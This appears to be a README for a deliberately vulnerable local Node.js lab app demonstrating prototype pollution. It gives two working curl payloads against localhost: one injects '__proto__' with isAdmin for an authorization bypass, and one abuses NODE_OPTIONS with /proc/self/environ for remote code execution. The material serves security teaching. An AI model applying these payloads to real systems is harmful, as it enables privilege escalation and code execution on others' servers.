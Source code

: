## Setup
`yarn && yarn start`

or you can build and run with docker `docker build . -t proto-pollution && docker run -p 3000:3000 --rm proto-pollution` to be able to trigger RCE

## Exploit
Open `localhost:3000` login with test:test copy JWT and do for auth bypass

```
 curl 'http://localhost:3003/branding' \\n  -H 'Connection: keep-alive'  -H 'Accept: application/json' \\n  -H 'Content-Type: application/json'  -H 'token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJpYXQiOjE2NDAzNjQyMjB9.i6Sk6ytLvRe5WH4QJkT6BFPSO3sCIV0v7drglwCY8fM' -H 'Origin: http://localhost:3003'   --data-raw '{"theme":"__proto__","color":"black","component":"isAdmin"}'
```
And you will be able to get all users from test account


For RCE use this payload and when you click to 'get random number' you should see message 'RCE'
```
 curl 'http://localhost:3003/branding' \\n  -H 'Connection: keep-alive'  -H 'Accept: application/json' \\n  -H 'Content-Type: application/json'  -H 'token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJpYXQiOjE2NDAzNjQyMjB9.i6Sk6ytLvRe5WH4QJkT6BFPSO3sCIV0v7drglwCY8fM' -H 'Origin: http://localhost:3003'   --data-raw '{"theme":"__proto__","color":{"AAAA": "console.log(\"RCE\"); //", "NODE_OPTIONS": "--require /proc/self/environ"},"component":"env"}' 
```

